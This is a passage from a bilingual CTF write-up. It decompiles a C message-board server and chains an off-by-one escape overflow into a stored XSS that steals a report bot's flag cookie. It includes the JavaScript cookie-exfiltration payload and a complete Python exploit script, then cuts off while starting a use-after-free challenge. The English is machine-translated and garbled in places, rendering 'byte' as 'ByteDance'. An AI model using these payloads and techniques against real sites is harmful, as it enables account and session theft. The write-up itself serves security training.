5. 查看 `user_id = 0` 的帖子时，服务端会调用 `sub_5370()` 把 HTML entity 再解码回来，原本被 escape 的脚本重新变成可执行 JavaScript。

   When viewing the post of `user_id = 0`, the server will call `sub_5370()` to decode the HTML entity back, and the originally escaped script will become executable JavaScript again.

6. `/report` 会让 bot 带着 `flag` cookie 访问该帖子，于是拿到存储型 XSS。

   `/report` will cause the bot to visit the post with the `flag` cookie, thus obtaining a stored XSS.

7. XSS 再次编辑同一篇帖子，把 `document.cookie` 写回页面，最后直接读取页面内容拿 flag。

   XSS edits the same post again, writes `document.cookie` back to the page, and finally directly reads the page content to obtain the flag.

#### **程序逻辑梳理** | **Program Logic Sorting**

**1. 路由分发**

**Routing Distribution**

主路由在 `sub_2BA0()`。

The main route is in ` sub_2BA0 () `. 

```C++
/*
 * func-name: sub_2BA0
 * func-address: 0x2ba0
 * callers: 0x35f0
 * callees: 0x24d0, 0x2520, 0x2530, 0x2590, 0x2610, 0x2670, 0x39a0, 0x3b10, 0x3cb0, 0x3e80, 0x3ff0, 0x40e0, 0x4430, 0x45c0, 0x4790, 0x4870, 0x4ba0, 0x4c90, 0x4cb0, 0x4d30, 0x4ff0, 0x5260, 0x54d0, 0x5660, 0x57f0, 0x5ab0, 0x5d70, 0x5f60, 0x60b0, 0x6a10
 */

// positive sp value has been detected, the output may be wrong!
unsigned __int64 __fastcall sub_2BA0(int a1)
{
  __int64 v1; // rbx
  char *v2; // rax
  char v3; // cl
  __int64 i; // rdx
  void *v6; // r12
  __int64 v7; // rax
  void *v8; // rbx
  void *v9; // r14
  __int64 v10; // rax
  _BYTE *v11; // rbx
  __int64 v12; // rax
  void *v13; // r12
  int v14; // eax
  __int64 v15; // rax
  int v16; // [rsp-2ACh] [rbp-212DCh] BYREF
  _DWORD v17[40]; // [rsp-2A8h] [rbp-212D8h] BYREF
  _BYTE v18[4]; // [rsp-208h] [rbp-21238h] BYREF
  int v19; // [rsp-204h] [rbp-21234h]
  char v20; // [rsp+0h] [rbp-21030h] BYREF
  __int64 v21; // [rsp+1000h] [rbp-20030h] BYREF
  int v22; // [rsp+6468h] [rbp-1ABC8h] BYREF
  char v23; // [rsp+646Ch] [rbp-1ABC4h]
  __int64 v24; // [rsp+6478h] [rbp-1ABB8h] BYREF
  __int16 v25; // [rsp+6480h] [rbp-1ABB0h]
  char v26[8196]; // [rsp+CB7Ch] [rbp-144B4h] BYREF
  char v27[264]; // [rsp+EB80h] [rbp-124B0h] BYREF
  _BYTE v28[66192]; // [rsp+EC88h] [rbp-123A8h] BYREF
  char v29[80]; // [rsp+1EF18h] [rbp-2118h] BYREF
  _BYTE v30[128]; // [rsp+1EF68h] [rbp-20C8h] BYREF
  _QWORD v31[1025]; // [rsp+1EFE8h] [rbp-2048h] BYREF
  unsigned __int64 v32; // [rsp+20FF0h] [rbp-40h]

  while ( &v20 != (char *)(&v21 - 16896) )
    ;
  v32 = __readfsqword(0x28u);
  memset(v29, 0, 65);
  memset(v31, 0, 0x2000u);
  memset(v17, 0, 0x98u);
  if ( (int)recv(a1, v31, 0x1FFFu, 0) > 0 )
  {
    LODWORD(v1) = sub_4870((char *)v31, (char *)&v22);
    if ( (_DWORD)v1 )
    {
      ((void (__fastcall *)(_BYTE *))sub_4BA0)(v28);
      ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 400, "Wrong request.");
      sub_4D30(a1);
      return v32 - __readfsqword(0x28u);
    }
    if ( v27[0] )
    {
      v2 = strstr(v27, "session_id=");
      if ( v2 )
      {
        v3 = v2[11];
        if ( v3 && v3 != 59 )
        {
          for ( i = 1; i != 65; ++i )
          {
            v28[i + 66191] = v3;
            v3 = v2[i + 11];
            if ( !v3 || v3 == 59 )
            {
              LODWORD(v1) = i;
              goto LABEL_13;
            }
          }
          LODWORD(v1) = 64;
        }
LABEL_13:
        v29[(int)v1] = 0;
        v1 = (unsigned int)sub_3E80(v29) == 0;
      }
    }
    ((void (__fastcall *)(_BYTE *))sub_4BA0)(v28);
    if ( v22 == 5522759 )
    {
      if ( (_WORD)v24 != 47 && ((_DWORD)v24 != 1634689583 || *(_DWORD *)((char *)&v24 + 3) != 6582881) )
      {
        if ( (_DWORD)v24 == 1735355439 && *(_DWORD *)((char *)&v24 + 3) == 7235943 )
        {
          if ( !(_DWORD)v1 )
          {
            ((void (__fastcall *)(_BYTE *, _QWORD))sub_54D0)(v28, 0);
            goto LABEL_17;
          }
          goto LABEL_73;
        }
        if ( v24 == 0x657473696765722FLL && v25 == 114 )
        {
          if ( !(_DWORD)v1 )
          {
            ((void (__fastcall *)(_BYTE *, _QWORD))sub_5660)(v28, 0);
            goto LABEL_17;
          }
          goto LABEL_73;
        }
        if ( v24 == 0x74756F676F6C2FLL )
        {
          if ( (_DWORD)v1 )
            sub_3FF0(v29);
          ((void (__fastcall *)(_BYTE *, const char *))sub_4C90)(v28, "session_id=; Max-Age=0");
          goto LABEL_41;
        }
        if ( v24 == 0x656E2F74736F702FLL && v25 == 119 )
        {
          if ( (_DWORD)v1 )
          {
            ((void (__fastcall *)(_BYTE *, _DWORD *, _QWORD))sub_5D70)(v28, v17, 0);
            goto LABEL_17;
          }
          goto LABEL_41;
        }
        if ( (_DWORD)v24 == 1936683055 && WORD2(v24) == 12148 )
        {
          if ( !(_DWORD)v1 )
            goto LABEL_41;
          if ( (unsigned int)sub_4FF0((char *)&v24 + 6) || v16 <= 0 )
            goto LABEL_83;
          if ( strstr((const char *)&v24, "/edit") )
          {
            if ( !(unsigned int)((__int64 (__fastcall *)(_QWORD, _BYTE *))sub_4430)((unsigned int)v16, v18) )
            {
              if ( v19 == v17[17] )
                ((void (__fastcall *)(_BYTE *, _DWORD *, _BYTE *))sub_5D70)(v28, v17, v18);
              else
                ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 403, "Edit failed.");
              goto LABEL_17;
            }
          }
          else if ( strstr((const char *)&v24, "/delete") )
          {
            if ( !(unsigned int)((__int64 (__fastcall *)(_QWORD, _BYTE *))sub_4430)((unsigned int)v16, v18) )
            {
              if ( v19 == v17[17] )
              {
                ((void (__fastcall *)(_BYTE *, _BYTE *, _DWORD *))sub_5F60)(v28, v18, v17);
                goto LABEL_17;
              }
              goto LABEL_89;
            }
          }
          else if ( !(unsigned int)((__int64 (__fastcall *)(_QWORD, _BYTE *))sub_4430)((unsigned int)v16, v18) )
          {
            ((void (__fastcall *)(_BYTE *, _BYTE *, _DWORD *))sub_5AB0)(v28, v18, v17);
            goto LABEL_17;
          }
LABEL_113:
          ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 404, "Post not found.");
          goto LABEL_17;
        }
LABEL_47:
        ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 404, "Page not found.");
        goto LABEL_17;
      }
      if ( !(_DWORD)v1 )
        goto LABEL_41;
      ((void (__fastcall *)(_BYTE *, _DWORD *))sub_57F0)(v28, v17);
    }
    else
    {
      if ( v22 == 1414745936 && !v23 )
      {
        if ( (_DWORD)v24 == 1735355439 && *(_DWORD *)((char *)&v24 + 3) == 7235943 )
        {
          v6 = (void *)sub_5260(v26);
          v7 = sub_5260(v26);
          v8 = (void *)v7;
          if ( v6 && v7 )
          {
            if ( (unsigned int)((__int64 (__fastcall *)(void *, __int64, int *))sub_3B10)(v6, v7, &v16) )
            {
              ((void (__fastcall *)(_BYTE *, const char *))sub_54D0)(v28, "ID or password is incorrect.");
            }
            else
            {
              v9 = (void *)((__int64 (__fastcall *)(_QWORD, void *))sub_3CB0)((unsigned int)v16, v6);
              if ( v9 )
              {
                __snprintf_chk();
                ((void (__fastcall *)(_BYTE *, _BYTE *))sub_4C90)(v28, v30);
                ((void (__fastcall *)(_BYTE *, const char *))sub_4CB0)(v28, "/board");
                free(v9);
              }
              else
              {
                ((void (__fastcall *)(_BYTE *, const char *))sub_54D0)(v28, "Session creation failed.");
              }
            }
          }
          else
          {
            ((void (__fastcall *)(_BYTE *, const char *))sub_54D0)(v28, "Please enter your ID and password.");
          }
LABEL_57:
          free(v6);
          free(v8);
          goto LABEL_17;
        }
        if ( v24 == 0x657473696765722FLL && v25 == 114 )
        {
          v6 = (void *)sub_5260(v26);
          v10 = sub_5260(v26);
          v8 = (void *)v10;
          if ( v6 && v10 && strlen((const char *)v6) > 2 && strlen((const char *)v8) > 3 )
          {
            if ( (unsigned int)((__int64 (__fastcall *)(void *, void *))sub_39A0)(v6, v8) )
              ((void (__fastcall *)(_BYTE *, const char *))sub_5660)(v28, "Registration failed. Please try again.");
            else
              ((void (__fastcall *)(_BYTE *, const char *))sub_4CB0)(v28, "/login");
          }
          else
          {
            ((void (__fastcall *)(_BYTE *, const char *))sub_5660)(
              v28,
              "ID must be at least 3 characters, password must be at least 4 characters.");
          }
          goto LABEL_57;
        }
        if ( v24 == 0x656E2F74736F702FLL && v25 == 119 )
        {
          if ( (_DWORD)v1 )
          {
            v11 = (_BYTE *)sub_5260(v26);
            v12 = sub_5260(v26);
            v13 = (void *)v12;
            if ( v11 && v12 && *v11 )
            {
              if ( (unsigned int)((__int64 (__fastcall *)(_QWORD, _BYTE *, __int64))sub_40E0)(v17[17], v11, v12) )
                ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 500, "Post creation failed.");
              else
                ((void (__fastcall *)(_BYTE *, const char *))sub_4CB0)(v28, "/board");
              goto LABEL_72;
            }
            goto LABEL_71;
          }
          goto LABEL_41;
        }
        if ( (_DWORD)v24 == 1936683055 && WORD2(v24) == 12148 )
        {
          if ( strstr((const char *)&v24, "/edit") )
          {
            if ( (_DWORD)v1 )
            {
              if ( !(unsigned int)sub_4FF0((char *)&v24 + 6) && v16 > 0 )
              {
                v11 = (_BYTE *)sub_5260(v26);
                v15 = sub_5260(v26);
                v13 = (void *)v15;
                if ( v11 && v15 && *v11 )
                {
                  if ( (unsigned int)((__int64 (__fastcall *)(_QWORD, _QWORD, _BYTE *, __int64))sub_45C0)(
                                       (unsigned int)v16,
                                       v17[17],
                                       v11,
                                       v15) )
                  {
                    ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 403, "Edit failed.");
                  }
                  else
                  {
                    __snprintf_chk();
                    ((void (__fastcall *)(_BYTE *, _BYTE *))sub_4CB0)(v28, v30);
                  }
                  goto LABEL_72;
                }
LABEL_71:
                ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 400, "Please enter a title.");
LABEL_72:
                free(v11);
                free(v13);
                goto LABEL_17;
              }
LABEL_83:
              ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 400, "Wrong post ID.");
              goto LABEL_17;
            }
LABEL_41:
            ((void (__fastcall *)(_BYTE *, const char *))sub_4CB0)(v28, "/login");
            goto LABEL_17;
          }
          if ( strstr((const char *)&v24, "/delete") )
          {
            if ( !(_DWORD)v1 )
              goto LABEL_41;
            if ( (unsigned int)sub_4FF0((char *)&v24 + 6) || v16 <= 0 )
              goto LABEL_83;
            if ( (unsigned int)((__int64 (__fastcall *)(_QWORD, _QWORD))sub_4790)((unsigned int)v16, v17[17]) )
            {
LABEL_89:
              ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 403, "Deletion failed.");
              goto LABEL_17;
            }
LABEL_73:
            ((void (__fastcall *)(_BYTE *, const char *))sub_4CB0)(v28, "/board");
            goto LABEL_17;
          }
          if ( strstr((const char *)&v24, "/report") )
          {
            if ( !(_DWORD)v1 )
              goto LABEL_41;
            if ( (unsigned int)sub_4FF0((char *)&v24 + 6) || v16 <= 0 )
              goto LABEL_83;
            if ( !(unsigned int)((__int64 (__fastcall *)(_QWORD, _BYTE *))sub_4430)((unsigned int)v16, v18) )
            {
              v14 = ((__int64 (__fastcall *)(_QWORD))sub_6A10)((unsigned int)v16);
              if ( v14 == 1 )
              {
                ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(
                  v28,
                  200,
                  "Report has been submitted. Admin will check your post soon.");
              }
              else if ( v14 )
              {
                ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(
                  v28,
                  500,
                  "An error occurred while processing your report.");
              }
              else
              {
                ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(
                  v28,
                  500,
                  "Failed to submit report. Please try again later.");
              }
              goto LABEL_17;
            }
            goto LABEL_113;
          }
        }
        goto LABEL_47;
      }
      ((void (__fastcall *)(_BYTE *, __int64, const char *))sub_60B0)(v28, 405, "This method is not allowed.");
    }
LABEL_17:
    sub_4D30(a1);
  }
  return v32 - __readfsqword(0x28u);
}
```

它会处理：

It will handle: 

- `GET /board`
- `GET /post/<id>`
- `POST /post/new`
- `POST /post/<id>/edit`
- `POST /post/<id>/report`

其中 `/report` 会调用 `sub_6A10()`。

Among them, `/report` will call `sub_6A10()`.

**2. report bot**

`sub_6A10()` 会拼接命令：

`sub_6A10()` will concatenate commands:

```C++
/*
 * func-name: sub_6A10
 * func-address: 0x6a10
 * callers: 0x2ba0
 * callees: 0x2500, 0x2540, 0x2590, 0x2610, 0x2670, 0x26f0, 0x3cb0, 0x3ff0
 */

__int64 sub_6A10()
{
  char *v0; // rax
  char *v1; // rbx
  _BYTE _0[16]; // [rsp+0h] [rbp+0h] BYREF
  char s[16]; // [rsp+20h] [rbp+20h] BYREF
  __int128 vars30; // [rsp+30h] [rbp+30h]
  __int128 vars40; // [rsp+40h] [rbp+40h]
  __int128 vars50; // [rsp+50h] [rbp+50h]
  __int128 vars60; // [rsp+60h] [rbp+60h]
  __int128 vars70; // [rsp+70h] [rbp+70h]
  __int128 vars80; // [rsp+80h] [rbp+80h]
  __int128 vars90; // [rsp+90h] [rbp+90h]
  __int128 varsA0; // [rsp+A0h] [rbp+A0h]
  __int128 varsB0; // [rsp+B0h] [rbp+B0h]
  __int128 varsC0; // [rsp+C0h] [rbp+C0h]
  __int128 varsD0; // [rsp+D0h] [rbp+D0h]
  __int128 varsE0; // [rsp+E0h] [rbp+E0h]
  __int128 varsF0; // [rsp+F0h] [rbp+F0h]
  __int128 vars100; // [rsp+100h] [rbp+100h]
  __int128 vars110; // [rsp+110h] [rbp+110h]
  char command; // [rsp+120h] [rbp+120h] BYREF
  unsigned __int64 vars328; // [rsp+328h] [rbp+328h]

  vars328 = __readfsqword(0x28u);
  __snprintf_chk();
  __snprintf_chk();
  v0 = sub_3CB0(0, (__int64)"admin");
  if ( v0 )
  {
    v1 = v0;
    __snprintf_chk();
    popen(&command, "r");
    if ( _0 )
    {
      *(_OWORD *)s = 0;
      vars30 = 0;
      vars40 = 0;
      vars50 = 0;
      vars60 = 0;
      vars70 = 0;
      vars80 = 0;
      vars90 = 0;
      varsA0 = 0;
      varsB0 = 0;
      varsC0 = 0;
      varsD0 = 0;
      varsE0 = 0;
      varsF0 = 0;
      vars100 = 0;
      vars110 = 0;
      if ( fgets(s, 256, (FILE *)_0) )
      {
        if ( pclose((FILE *)_0) != -1 )
        {
          sub_3FF0(v1);
          return strstr(s, "True") != 0;
        }
      }
      else
      {
        pclose((FILE *)_0);
      }
    }
    else
    {
      perror("popen failed");
    }
  }
  return 0xFFFFFFFFLL;
}
/usr/bin/python3 /home/ctf/bot.py %s %s %s
```

而 `bot.py` 的行为很关键：

And ` bot.py ` 's behavior is crucial: 

1. 先访问 `http://127.0.0.1:{port}/`

   First visit `http://127.0.0.1:{port}/`

2. 注入两个 cookie：

   Inject two cookies:

   - `session_id`
   - `flag`

3. 再访问：

   Revisit:

```http
http://127.0.0.1:{port}/post/{post_id}/
```

因此只要能让 bot 在帖子页执行 JavaScript，就能直接读到 `document.cookie` 里的 `flag`。

Therefore, as long as the bot can execute JavaScript on the post page, it can directly read the `flag` in `document.cookie`.

#### **关键漏洞分析** | **Critical Vulnerability Analysis** 

**漏洞 1：`sub_5270()` 中的 1 字节越界**

**Vulnerability 1: 1 ByteDance out-of-bounds in `sub_5270()`** 

`sub_5270()` 负责把用户输入转义后再写入数据库。

`sub_5270()` is responsible for escaping user input and then writing it to the database.

```C++
/*
 * func-name: sub_5270
 * func-address: 0x5270
 * callers: 0x39a0, 0x3b10, 0x3cb0, 0x40e0, 0x45c0, 0x54d0, 0x5660, 0x60b0
 * callees: none
 */

void __fastcall sub_5270(_BYTE *a1, char *a2, __int64 a3)
{
  char v4; // di
  unsigned __int64 v5; // rdx
  char *v6; // rsi
  unsigned __int64 v7; // rax
  char *v8; // r8

  v4 = *a2;
  if ( *a2 )
  {
    v5 = a3 - 6;
    v6 = a2 + 1;
    v7 = 0;
    do
    {
      v8 = &a1[v7];
      switch ( v4 )
      {
        case '"':
          strcpy(v8, "&quot;");
          v7 += 6LL;
          break;
        case '&':
          strcpy(v8, "&amp;");
          v7 += 5LL;
          break;
        case '\'':
          strcpy(v8, "&#39;");
          v7 += 5LL;
          break;
        case '<':
          strcpy(v8, "&lt;");
          v7 += 4LL;
          break;
        case '>':
          strcpy(v8, "&gt;");
          v7 += 4LL;
          break;
        default:
          *v8 = v4;
          ++v7;
          break;
      }
      v4 = *v6;
      if ( !*v6 )
        break;
      ++v6;
    }
    while ( v5 >= v7 );
    a1 += v7;
  }
  *a1 = 0;
}

```

它的处理规则大致是：

Its processing rules are roughly as follows: 

- `<` -> `<`
- `>` -> `>`
- `&` -> `&`
- `'` -> `'`
- `"` -> `"`

问题出在 `"` 这个分支。

The problem lies in `"` this branch. 

从反汇编可以看出：

As can be seen from the disassembly:

- 实际写入的是 `"\0`

  What is actually written is `"\ 0`

\- 也就是总共写了 **7 字节**

That is, a total of **7 ByteDance**

\- 但内部长度计数只增加了 **6**

But the internal length count only increased by **6**

而函数入口又把可写上限设成了 `a3 - 6`。  

The function entry sets the writable upper limit to `a3 - 6`. 

于是当当前输出位置刚好等于 `a3 - 6` 时，如果下一个字符是 `"`，就会把结尾的 `\0` 写到缓冲区外面 1 字节。

So when the current output position is exactly equal to `a3 - 6`, if the next character is `"`, the terminating `\0` will be written 1 Byte outside the buffer.

这个 bug 在 `sub_40E0()` 和 `sub_45C0()` 里都能触发，因为这两个函数都会先对标题和内容调用 `sub_5270()`。

This bug can be triggered in both ` sub_40E0() ` and ` sub_45C0() `, because both functions call ` sub_5270() ` first for the title and content. 

**为什么`/edit` 最好打**

**Why is `/edit` the best option?**

`sub_45C0()` 的栈布局大致是：

`sub_45C0()`'s stack layout is roughly:

- `rsp+0x10`：escape 后的 title buffer，大小 `0x600`

  `rsp+0x10`: Title buffer after escape, size `0x600`

- `rsp+0x610`：escape 后的 content buffer，大小 `0x6000`

  `rsp+0x610`: Content buffer after escape, size `0x6000`

- `rsp+0x6610`：当前用户 id 的一个本地整型副本

  `rsp+0x6610`: A local integer copy of the current user ID

也就是说，只要把 `content` 的 ***\*escape 后长度精确卡到 `0x6000 = 24576`\****，最后再放一个 `"`，越界写出的那个 `\0` 就会落到 `rsp+0x6610`，把用户 id 的最低字节清零。

That is to say, as long as the ***\*length after escaping `content` is precisely set to `0x6000 = 24576`\****, and finally a `"` is placed, the `\0` written out of bounds will land at `rsp+0x6610`, clearing the least significant byte of the user ID to zero.

对于新注册用户，这个 id 一般就是 `1`，低字节被清零后就直接变成了 `0`。

For newly registered users, this id is generally ` 1 `, and after the low byte is cleared, it directly becomes ` 0 `. 

**漏洞 2：被“管理员化”的帖子会被 HTML 解码**

**Vulnerability 2: Posts that have been "administrated" will be HTML decoded** 

查看帖子页走的是 `sub_5AB0()`。

Viewing the post page goes through `sub_5AB0()`. 

这里有一段很关键的逻辑：

Here is a very crucial piece of logic:

- 如果 `post.user_id != 0`：直接把数据库里的内容插到 HTML 模板中

  If ` post.user_id!= 0 `: directly insert the content from the database into the HTML template 

- 如果 `post.user_id == 0`：先调用 `sub_5370()` 对内容做一次 HTML entity decode，再插到模板中

  If ` post.user_id == 0 `: First call ` sub_5370 () ` to perform an HTML entity decode on the content, then insert it into the template 

`sub_5370()` 会把这些实体还原回来：

`sub_5370()` will restore these entities:

- `<` -> `<`
- `>` -> `>`
- `&` -> `&`
- `"` -> `"`
- `'` -> `'`

这就导致一个非常漂亮的二段效果：

This results in a very beautiful two-stage effect: 

1. 我们提交的脚本最开始会被 `sub_5270()` escape，存进数据库时看起来是安全字符串。

   The script we submitted will initially be ` sub_5270() ` escaped and appear as a secure string when stored in the database. 

2. 利用 1 字节越界把帖子 owner 改成 `user_id = 0`。

   Use 1 ByteDance out-of-bounds to change the post owner to ` user_id = 0 `. 

3. 再次访问帖子时，服务端把这些实体全部解码回来。

   When accessing the post again, the server decodes all these entities back. 

4. 原本的 `<script>...` 重新变成真正的 `<script>...`。

   The original `< script >... `becomes the real `< script >.... `.

于是就拿到了存储型 XSS。

Then, stored XSS was obtained. 

**漏洞 3：管理员更新分支会把帖子永久改成`user_id = 0`**

**Bug 3: The administrator's update branch will permanently change the post to `user_id = 0`**

字符串表里有两条 SQL：

There are two SQL statements in the string table:

```SQL
UPDATE posts SET title = ?, content = ?, user_id = 0 WHERE id = ?;
UPDATE posts SET title = ?, content = ? WHERE id = ? AND user_id = ?;
```

`sub_45C0()` 中：

`sub_45C0()`: 

- 当局部变量里的用户 id 非 0 时，走普通更新语句

  When the user ID in the local variable is not 0, execute the normal update statement 

- 当局部变量里的用户 id 为 0 时，走管理员更新语句

  When the user ID in the local variable is 0, execute the administrator update statement

这意味着我们的目标不只是临时绕过权限，而是通过越界把这次更新真正写成：

This means that our goal is not just to temporarily bypass permissions, but to truly write this update through boundary crossing as follows: 

```SQL
user_id = 0
```

从数据库层面把帖子“洗成”管理员帖子。

"Wash" the post into an administrator post at the database level. 

#### **利用思路** | **Utilization Approach**

完整利用链如下：

The complete utilization chain is as follows: 

1. 连接 `9883`，拿到临时实例端口。

   Connect to ` 9883 `, and obtain the temporary instance port. 

2. 注册普通用户并登录。

   Register as a regular user and log in.

3. 新建一篇帖子。

   Create a new post.

4. 构造一个特殊的 `content`，让它在 escape 后长度刚好等于 `24576`，并以 `"` 结尾，触发 `sub_5270()` 的 1 字节越界。

   Construct a special `content` such that its length after escaping is exactly equal to `24576`, and ends with `"`, triggering a 1-ByteDance out-of-bounds in `sub_5270()`.

5. 越界把 `/edit` 栈上的当前用户 id 清零。

   Out-of-bounds clears the current user ID on the `/edit ` stack. 

6. 程序误以为这次编辑来自管理员，执行：

   The program mistakenly thought this edit was from an administrator and executed: 

```SQL
UPDATE posts SET title = ?, content = ?, user_id = 0 WHERE id = ?;
```

7. 这篇帖子现在变成管理员帖子，访问时服务端会先 HTML decode。

8. This post has now become an administrator post, and the server will perform HTML decoding first when accessing it. 

9. 我们存进去的脚本被还原成真正的 `<script>`。

   The script we stored has been restored to the real `<script>`. 

10. 调用 `/post/<id>/report`，bot 带着 `flag` cookie 访问帖子。

    Call `/post/<id>/report`, the bot accesses the post with `flag` cookie.

11. JavaScript 读取 `document.cookie`，再通过同一个 `/post/<id>/edit` 把 cookie 内容写回帖子。

    JavaScript reads `document.cookie`, then writes the cookie content back to the post via the same `/post/<id>/edit`.

12. 最后普通用户再次访问帖子页，直接从 HTML 里读出 `flag=...`。

    Finally, when the ordinary user visits the post page again, they directly read out `flag=...` from the HTML.

**Payload 设计** | **Payload Design**

第一阶段的 payload 负责让 bot 访问帖子时，自动把 cookie 回写到同一篇帖子里：

The payload of the first stage is responsible for automatically writing the cookie back to the same post when the bot accesses it: 

```JavaScript
<script>
x=new XMLHttpRequest;
x.open('POST','/post/POST_ID/edit');
x.send('title=x'.concat(String.fromCharCode(38),'content=',encodeURIComponent(document.cookie)))
</script><!--
```

后面的 `<!--` 是为了吞掉后续的对齐填充。

is followed by `<!--` to consume subsequent alignment padding. 

**为什么要自己控制“escape 后长度”**

**Why should you control the "length after escape" yourself?**

因为触发越界的条件不是原始输入长度，而是：

Because the condition for triggering out-of-bounds is not the length of the original input, but:

```c
escape(content) 的长度 == 24576
且最后一个字符是 "
```

在我的利用脚本里，做法是：

In my utilization script, the approach is: 

1. 先放入上面的 JavaScript 主体

   First insert the above JavaScript body

2. 用大量 `<` 作为 padding

   Use a large amount of `<` as padding 

因为 `<` 会变成 `<`，每个字符可以稳定贡献 4 字节

Because `< `will become `< `, each character can contribute 4 ByteDance stably

3. 剩余不能被 4 整除的部分，用普通字符 `A` 补齐

   The remaining part that cannot be divided evenly by 4 is filled with the ordinary character `A` 

4. 最后追加一个 `"`

   Finally append a `"`

这样可以精确把 escape 后长度打到 `24576`。

This way, the length after escape can be precisely set to `24576`. 

**为什么脚本能读到 cookie**

**Why can the script read cookies?**

bot 不是通过正常登录流程得到 cookie，而是直接在 Selenium 里手动调用：

The bot does not obtain cookies through the normal login process but directly calls them manually in Selenium: 

```Python
driver.add_cookie({"name": "session_id", "value": session_id})
driver.add_cookie({"name": "flag", "value": flag})
```

因此在 bot 的浏览器上下文中，`document.cookie` 可以直接拿到我们需要的 `flag`。

Therefore, in the bot's browser context,`document.cookie` can directly obtain the `flag` we need.

#### **Exp**

```py
import random
import re
import socket
import string
import sys
import time

import requests

HOST = sys.argv[1] if len(sys.argv) > 1 else "15.164.173.24"
LAUNCH_PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 9883

ESCAPE_MAP = {
    '"': "&quot;",
    "&": "&amp;",
    "'": "&#39;",
    "<": "&lt;",
    ">": "&gt;",
}

def html_escape_len(text: str) -> int:
    return sum(len(ESCAPE_MAP.get(ch, ch)) for ch in text)

def launch_instance(host: str, port: int) -> tuple[int, str]:
    sock = socket.create_connection((host, port), timeout=5)
    sock.settimeout(0.5)
    chunks = []
    deadline = time.time() + 3

    while time.time() < deadline:
        try:
            data = sock.recv(4096)
            if not data:
                break
            chunks.append(data)
            if b"http://localhost:" in b"".join(chunks):
                break
        except OSError:
            pass

    sock.close()
    banner = b"".join(chunks).decode("latin1", "replace")
    match = re.search(r"port (\d+)", banner)
    if not match:
        raise RuntimeError(f"failed to parse launcher banner:\n{banner}")
    return int(match.group(1)), banner

def build_stage1_payload(post_id: int) -> str:
    script = (
        f"<script>x=new XMLHttpRequest;"
        f"x.open('POST','/post/{post_id}/edit');"
        f"x.send('title=x'.concat(String.fromCharCode(38),'content=',"
        f"encodeURIComponent(document.cookie)))</script><!--"
    )
    need = 24570 - html_escape_len(script)
    if need < 0:
        raise ValueError("script is too long")

    padding = "<" * (need // 4) + "A" * (need % 4)
    content = script + padding + '"'

    if html_escape_len(content) != 24576:
        raise ValueError("failed to hit off-by-one boundary")
    return content

def main() -> None:
    port, banner = launch_instance(HOST, LAUNCH_PORT)
    print(banner, end="")

    base = f"http://{HOST}:{port}"
    session = requests.Session()

    username = "u" + "".join(random.choice(string.ascii_lowercase) for _ in range(8))
    password = "pass1234"

    session.post(
        base + "/register",
        data={"username": username, "password": password},
        allow_redirects=False,
        timeout=5,
    )
    session.post(
        base + "/login",
        data={"username": username, "password": password},
        allow_redirects=False,
        timeout=5,
    )
    session.post(
        base + "/post/new",
        data={"title": "t", "content": "c"},
        allow_redirects=False,
        timeout=5,
    )

    board = session.get(base + "/board", timeout=5).text
    post_id = max(map(int, re.findall(r"/post/(\d+)", board)))

    stage1 = build_stage1_payload(post_id)
    body = "title=pwn&content=" + stage1
    session.post(
        base + f"/post/{post_id}/edit",
        data=body.encode(),
        headers={"Content-Type": "application/x-www-form-urlencoded"},
        allow_redirects=False,
        timeout=10,
    )

    session.post(
        base + f"/post/{post_id}/report",
        allow_redirects=False,
        timeout=5,
    )

    for _ in range(10):
        time.sleep(1)
        html = session.get(base + f"/post/{post_id}/", timeout=5).text
        match = re.search(r"flag=([^; <]+)", html)
        if match:
            print(match.group(1))
            return

    raise RuntimeError("flag was not leaked in time")

if __name__ == "__main__":
    main()

```

使用方式：（有概率成功）

Usage: (with a probability of success)

```Bash
py -3 solve.py
```

脚本流程：

Script Process:

1. 连 launcher 获取真实端口

   Even launcher gets the real port

2. 注册 / 登录

   Register / Login

3. 发帖

   Post

4. 精确构造越界 payload 并编辑帖子

   Precisely construct an out-of-bounds payload and edit the post

5. report 给 bot

6. 轮询帖子内容

   Polling post content

7. 从页面里提取 `flag=...`

   Extract from the page `flag=...`

### BackToThe2048

#### **一句话总结** | **Summary in one sentence**

这题的核心漏洞是 tag 编辑器里存在一个稳定的 **stale selected-tag pointer / UAF**。

The core vulnerability of this problem is that there is a stable  **stale selected-tag pointer / UAF**  in the tag editor. 

在某个 tag 被选中后，如果继续用 `N` 新增 tag，底层 `std::vector` 扩容时会搬迁元素，但“当前选中的 tag 指针”没有同步更新。后续再按 `Enter` 编辑，就会继续对旧地址写入，从而把相邻对象当成 tag/string 元数据改写，最终拿到任意地址读写，并借助 glibc exit handler 劫持执行流到 `system("/bin/sh")`。

After a certain tag is selected, if you continue to use `N` to add new tags, the underlying `std::vector` will relocate elements when resizing, but the "currently selected tag pointer" is not updated synchronously. Subsequently, when you press `Enter` to edit, it will continue to write to the old address, thus overwriting adjacent objects as tag/string metadata, ultimately achieving arbitrary address read and write, and hijacking the execution flow to `system("/bin/sh")`.

#### **漏洞点** | **Vulnerability Point** 

漏洞点位于反编译结果 [2840.c]对应的 tag 编辑逻辑中。

The vulnerability point is located in the tag editing logic corresponding to the decompilation result [2840.c]. 

```C++
/*
 * func-name: main
 * func-address: 0x2840
 * callers: 0x38d0
